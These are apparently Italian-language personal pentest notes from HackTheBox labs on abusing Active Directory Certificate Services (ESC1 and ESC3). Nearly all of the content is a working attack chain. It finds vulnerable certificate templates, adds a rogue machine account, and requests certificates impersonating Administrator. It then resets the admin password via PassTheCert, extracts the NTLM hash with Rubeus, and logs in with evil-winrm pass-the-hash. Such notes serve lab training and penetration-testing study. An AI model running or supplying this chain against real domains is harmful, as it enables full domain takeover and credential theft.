 ### **ENUMERAZIONE**
Cerca un template vulnerabile
```bash
certipy-ad find -u <USER> -p <PASS> -dc-ip <IP> -vulnerable -stdout
```
```powershell
./Certify.exe find /vulnerable
```
![[Pasted image 20230719143059.png]]
### **EXPLOIT ESC 1**
Hai la possibilità di enroll

```bash
impacket-addcomputer  <DOMINIO>/<USER>:'<PASS>' -computer-name testComputer2$ -computer-pass TestPassword321
```
![[Pasted image 20230719143908.png]]
controllo se è stato creato
```bash
crackmapexec smb <IP> -u 'testComputer2$' -p 'TestPassword321' -d <DOMINIO>
```
![[Pasted image 20230719150304.png]]
Generiamo un certificato per l'account appena creatp
```bash
certipy req -u 'testComputer2$' -p 'TestPassword321' -dc-ip IP_DC_HERE -ca AUTHORITY-CA -template '<TEMPLATE>' -upn 'Administrator'
```
![[Pasted image 20230719150515.png]]
Ora dividi il certificato
```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
certipy cert -pfx administrator.pfx -nocert -out user.key
```
Usa il seguente tool per accere con il certificato
[PassTheCert/Python at main · AlmondOffSec/PassTheCert · GitHub](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)
```bash
python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip IP_DC_HERE -target administrator -new-pass
```
![[Pasted image 20230719150944.png]]
Entra con evil-winrm
### **EXPLOIT ESC 3**
Richiedi il certificato
```BASH
certipy-ad req -username <USER>@<IP> -password <PASS> -ca <NOME-CA> -target <NOME MACCHINA> -template <TEMPLATE LOCALE> -upn <USER DA PRENDERE>@<IP> -dns <NOME MACCHINA> -debug
```
```POWERSHELL
Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:<TEMPLATE VULNERABILE> /altname:<TEMPLATE DA PRENDERE>
```
converti chiave e certificato in formato pfx12
```bash
openssl pkcs12 -in cert.pem -inkey private.key -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Carica rubeus e il cert.pfx sulla macchina e prendi l'hash ntlm
```powershell
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
![[Pasted image 20230719143559.png]]
Usa l'hash per loggare tramite evil-winrm
```bash
evil-winrm -i 10.10.11.202 -u Administrator -H <HASH>
```